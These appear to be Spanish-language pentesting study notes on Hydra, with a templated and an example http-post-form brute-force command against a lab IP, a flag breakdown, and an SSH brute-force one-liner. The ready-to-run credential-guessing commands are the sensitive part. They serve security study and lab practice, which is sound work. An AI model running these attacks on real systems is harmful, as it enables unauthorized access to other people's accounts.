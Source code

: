 Es una herramienta de fuerza bruta para crackear credenciales (usuario y contraseña) en servicios como HTTP, FTP, SSH, entre muchos otros.  Automatiza intentos de login usando listas de usuarios y contraseñas.  

```
hydra -L DiccionarioParaUsuarios -P DiccionarioParaContraseñas IpVictima http-post-form "RutaAlEndpointDelFormulario/:VariableDeUsuario=^USER^&VariableDeContraseña=^PASS^:F=ErrorAlEquivocarnosDeCredenciales" -t 64


Ejemplo: hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt 10.10.10.152 http-post-form '/public/checklogin.htm:username=^USER^&password=^PASS^:F=Your login has failed. Please try again !' -t 64
```
*Parametros*
`-L` Lista de usuarios a probar
`-P`Lista de contraseñas a probar
`IpVictima` La ip del objetivo
`-http-post-form`Modulo de ataque(Es un formulario web que usa método POST)
	*Desglose del argumento:*
		`/public/checklogin.htm` Es el endpoint del fomulario, que lo podemos sacar de el burpsuite y es lo que esta señalado en la imagen
		`username` Variable del usuario, que en este caso es username como se ve en burpsuite
		`password`Variable de la contraseña, que en este caso es password como se ve en el burpsuite
		`F=` Es el error que nos da cuando ponemos unas credenciales erróneas
`-t` Cantidad de hilos

![[Netmon10.png]]


-----
# Fuerza bruta a [[ssh]]

```shell
hydra -L users -P pass ssh://10.10.16.5
```

*Parametros*
`-L` Lista de usuarios a probar
`-P`Lista de contraseñas a probar
